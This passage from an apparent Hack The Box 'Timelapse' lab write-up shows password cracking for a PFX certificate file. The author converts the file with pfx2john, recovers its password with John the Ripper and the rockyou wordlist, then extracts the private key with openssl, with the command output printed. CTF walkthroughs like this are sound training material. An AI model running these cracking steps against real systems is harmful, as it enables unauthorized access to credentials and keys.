 We have a pfx file from the archive. If you've not worked with pfx files before, then [this](https://www.howtouselinux.com/post/pfx-file-with-examples) is helpful. The last section explains how to extract a private key from a pfx file. However if we try it we find this also needs a password:

```sh
┌──(root💀kali)-[~/htb/timelapse]
└─# openssl pkcs12 -in legacyy_dev_auth.pfx -nocerts -out priv.key
Enter Import Password:
Mac verify error: invalid password?
```

Back to John to crack this one. First convert the pfx file to a John friendly hash:

```sh
┌──(root💀kali)-[~/htb/timelapse]
└─# pfx2john legacyy_dev_auth.pfx > pfx.hash

┌──(root💀kali)-[~/htb/timelapse]
└─# cat pfx.hash
legacyy_dev_auth.pfx:$pfxng$1$20$2000$20$eb755568327396de179c4a5d
668ba8fe550ae18a$3082099c3082060f06092a864886f70d010701a082060004
8205fc308205f8308205f4060b2a864886f70d010c0a0102a08204fe308<SNIP>
23b99e245b03465a6ce0c974055e6dcc74f0e893:::::legacyy_dev_auth.pfx
```

Fire up JohnTheRipper with rockyou again:

```sh
┌──(root💀kali)-[~/htb/timelapse]
└─# john --wordlist=/usr/share/wordlists/rockyou.txt pfx.hash      
Using default input encoding: UTF-8
Loaded 1 password hash (pfx, (.pfx, .p12) [PKCS#12 PBE (SHA1/SHA2) 256/256 AVX2 8x])
Cost 1 (iteration count) is 2000 for all loaded hashes
Cost 2 (mac-type [1:SHA1 224:SHA224 256:SHA256 384:SHA384 512:SHA512]) is 1 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
thuglegacy       (legacyy_dev_auth.pfx)     
1g 0:00:00:42 DONE (2022-04-09 22:45) 0.02346g/s 75826p/s 75826c/s 75826C/s thuglife06..thsco04
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

We have another password in only a few seconds. Let's extract that private key now we have the password:

```sh
┌──(root💀kali)-[~/htb/timelapse]
└─# openssl pkcs12 -in legacyy_dev_auth.pfx -nocerts -out priv.key
Enter Import Password:
Enter PEM pass phrase:
Verifying - Enter PEM pass phrase:
```

For PEM pass phrase you can set this to anything, I used 1234.

We also need the certificate as well as the private key. Use the same password as we got from John again:
